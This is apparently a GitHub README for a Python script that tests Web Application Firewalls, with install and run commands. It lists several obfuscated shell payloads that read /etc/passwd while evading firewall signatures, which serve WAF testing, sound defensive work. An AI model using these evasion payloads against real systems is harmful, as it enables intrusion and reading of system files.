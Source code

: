 # WAF Bypass script

WAF bypass is a simple script written in Python3 for testing Web Application Firewall. Turn off ban mode before use.

## When using, do not violate the law. We are not responsible for the use of the program.

A script developed for internal needs, including for testing Nemesis WAF and Nemesida WAF Free, but you can use it to test any WAF.

![WAF Bypass Script](https://camo.githubusercontent.com/9ccddb9274eefa8bbe31cc1b0df79782ea6a92d5985b8eeab093a2cd83ad834a/68747470733a2f2f686162726173746f726167652e6f72672f776562742f73642f756a2f39312f7364756a39317333752d5f356a653970666b6e64306577696c6a732e706e67)

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free bypass the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' |awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

<pre>
# mkdir /opt/waf-bypass/
# git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
# python3 -m pip install -r /opt/waf-bypass/requirements.txt

# python3 /opt/waf-bypass/main.py --host='example.com'
or
# python3 /opt/waf-bypass/main.py --host='example.com' --proxy='http://proxy.example.com:3128'

</pre>
